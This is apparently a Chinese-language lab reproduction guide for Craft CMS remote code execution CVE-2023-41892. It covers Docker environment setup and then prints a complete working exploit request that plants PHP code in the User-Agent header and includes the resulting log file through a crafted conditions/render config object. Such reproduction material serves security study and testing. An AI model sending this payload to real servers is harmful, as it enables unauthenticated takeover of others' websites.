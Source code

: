 # Craft CMS远程代码执行漏洞（CVE-2023-41892）

​	Craft CMS是一个开源的内容管理系统，它专注于用户友好的内容创建过程，逻辑清晰明了，是一个高度自由，高度自定义设计的平台吗，可以用来创建个人或企业网站也可以搭建企业级电子商务系统。Craft CMS存在前台远程代码执行漏洞，攻击者可构造恶意请求执行任意代码，控制服务器。

源码地址 https://github.com/craftcms/cms/

版本影响 4.0.0-RC1 <= Craft CMS <= 4.4.14

参考链接：

- https://github.com/advisories/GHSA-4w8r-3xrw-v25g

  

## 漏洞环境

执行如下命令启动一个 craft-cms-4-4-11-web：

```
docker compose up -d
```

进入craft-cms-4-4-11-web容器中 

```shell
docker ps 
sudo docker exec -it craft-cms-4-4-11-web bash
```

在craft-cms-4-4-11-web容器中执行craft的初始化命令

```shell
export CRAFT_ALLOW_SUPERUSER=1
php craft setup
```

数据库craftcms

![image-20250423214724203](./1.png)

之后填写邮箱及登录密码

![image-20250423215001399](./2.png)

环境启动后，访问`http://your-ip:8080`/admin 即可跳转到craft-cms 登录页面

![image-20250423215135456](./3.png)

## 漏洞复现

在User-Agent头 贴入php代码 <?php xxxxx  ?>，在itemFile包含今天的生成log日志文件从而执行php代码。

```
POST /index.php HTTP/1.1
Host: 192.168.76.129:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent:<?=`id` ?>
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 232

action=conditions/render&configObject=craft\elements\conditions\ElementCondition&config={"name":"configObject","as ":{"class":"\\yii\\rbac\\PhpManager","__construct()":[{"itemFile":"/var/www/html/storage/logs/web-2025-04-23.log"}]}}
```

![image-20250423215809274](./4.png)
